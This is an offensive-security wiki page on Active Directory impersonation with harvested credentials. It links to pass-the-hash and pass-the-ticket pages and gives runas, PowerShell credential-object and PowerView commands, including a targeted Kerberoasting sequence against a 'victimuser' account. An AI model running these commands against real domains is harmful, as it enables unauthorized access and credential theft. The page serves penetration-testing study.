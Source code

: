 # Impersonation

When credentials are found (through [dumping](dumping/) or [cracking](cracking.md) for instance), attackers try to use them to obtain access to new resources. Depending on the harvested credential material type, the impersonation can be done in different ways.

* **LM or NT password hash**: [pass-the-hash](../ntlm/pth.md)
* **RC4 Kerberos key (i.e. NT hash)**: [overpass-the-hash](../kerberos/ptk.md)
* **non-RC4 Kerberos key (i.e. DES or AES)**: [pass-the-key](../kerberos/ptk.md) (alias for overpass-the-hash)
* **Kerberos ticket**: [pass-the-ticket](../kerberos/ptt.md)
* **plaintext password**: the techniques listed below

{% tabs %}
{% tab title="RunAs" %}
RunAs is a standard Windows command that allows to execute a program under a different user account. When stuffing an Active Directory account's password, the `/netonly` flag must be set to indicate the credentials are to be used for remote access only.

```bash
runas /netonly /user:$DOMAIN\$USER "powershell.exe"
```

Since the password cannot be supplied as an argument, the session must be interactive.
{% endtab %}

{% tab title="Powershell" %}
In Powershell, it is possible to impersonate a user by create a credential object and supplying it with the `-Credential` argument in the next command.

```bash
# Credential object creation (prompted)
$credential = Get-Credential

# Credential object creation (not prompted)
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)

# Usage
Start-Process Notepad.exe -Credential $credential
```
{% endtab %}

{% tab title="PowerView" %}
Most of [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s functions have the `-Credential`, `-Domain` and `-Server` parameters that can be used to explicitly specify the user to run as, the target Domain and and the target Domain Controller. Just like the previous "Powershell" tab, the -Credential option has to be supplied with a credential object.

Here is an example for [targeted Kerberoasting](../access-control-entries/targeted-kerberoasting.md).

```bash
# Credential object creation (not prompted)
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)

# Usage
Set-DomainObject -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' -Identity 'victimuser' -Set @{serviceprincipalname='nonexistant/BLAHBLAH'}
$User = Get-DomainUser -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' 'victimuser'
$User | Get-DomainSPNTicket -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' | fl
```
{% endtab %}
{% endtabs %}
